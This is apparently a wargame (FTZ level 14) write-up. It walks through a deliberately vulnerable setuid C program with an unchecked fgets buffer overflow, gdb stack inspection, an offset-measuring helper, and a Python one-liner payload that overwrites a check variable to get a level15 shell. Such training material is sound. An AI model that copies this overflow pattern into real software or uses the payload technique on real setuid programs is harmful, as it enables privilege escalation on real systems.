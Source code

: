 # Level14

## This level's goal
- routine

***

```
[level14@ftz level14]$ ls -l
-rwsr-x---    1 level15  level14     13801 Dec 10  2002 attackme
-rw-r-----    1 root     level14       346 Dec 10  2002 hint

[level14@ftz level14]$ cat hint 

레벨14 이후로는 mainsource의 문제를 그대로 가져왔습니다.
(After level14, brought just main source's problem.)
버퍼 오버플로우, 포맷스트링을 학습하는데는 이 문제들이 최고의 효과를 가져다줍니다.
(those problems are the best effect for learning formoat strings and buffer overflow)

#include <stdio.h>
#include <unistd.h>

main()
{ 
  int crap;
  int check;
  char buf[20];
  fgets(buf,45,stdin);
  if (check==0xdeadbeef)
   {
     setreuid(3095,3095);
     system("/bin/sh");
   }
}

[level14@ftz level14]$ gdb -q attackme
(gdb) disass main
0x08048493 <main+3>:    sub    $0x38,%esp
0x080484ad <main+29>:   cmpl   $0xdeadbeef,0xfffffff0(%ebp)

(gdb) break *0x080484ad
(gdb) run
Starting program: /home/level14/tmp/attackme
AAAA

(gdb) x/16x $esp
0xbfffe430:     0x41414141      0x4213000a      0xbfffe458      0x08048471
0xbfffe440:     0x08049560      0x08049668      0x4001582c      0x080483be
0xbfffe450:     0x08048308      0x42130a14      0xbfffe468      0x0804831e
0xbfffe460:     0x4200af84      0x42130a14      0xbfffe488      0x42015574
```

0x38 means 56 bytes, and I need to get more information of memory size.

```
[level14@ftz tmp]$ cat distance.c

#include <stdio.h>
#include <unistd.h>

int main()
{
        int crap;
        int check;
        char buf[20];

        fgets(buf,45,stdin);
        if(check == 0xdeadbeef)
        {
                setreuid(3095,3095);
                system("/bin/sh");
        }
        printf("Input is : %s\n &buf : %p\n &check: %p\n &crap : %p\n", buf, buf, &check, &crap);
}

[level14@ftz tmp]$ gcc distance.c -o distance
[level14@ftz tmp]$ ./distance
AAAA
Input is : AAAA

&buf :   0xbffff8a0
&check:  0xbffff8c8
&crap :  0xbffff8cc
```

As above, I can understand the memory size.

Between buff and check : 0xbffff8c8 - 0xbffff8a0 = 0x00000028 (40 bytes)   
Between chek and crap  : 0xbffff8cc - 0xbffff8c8 = 0x00000004 (4bytes)

char buf(20 bytes) + dummy(20bytes) + check(4bytes) + crap(4bytes) + dummy(8bytes) + SFP(4bytes) + RET(4bytes)

```
int check;
	if (check==0xdeadbeef)
	{
	     setreuid(3095,3095);
	     system("/bin/sh");
	}
```

In the hint, you need to input 40bytes dummy strings and then 0xdeadbeef in the int check, then you will get sh.

```
[level14@ftz level14]$ (python -c 'print "A"*40+"\xef\xbe\xad\xde"'; cat) | ./attackme

id
uid=3095(level15) gid=3094(level14) groups=3094(level14)

my-pass
Level15 Password is "guess what".
```
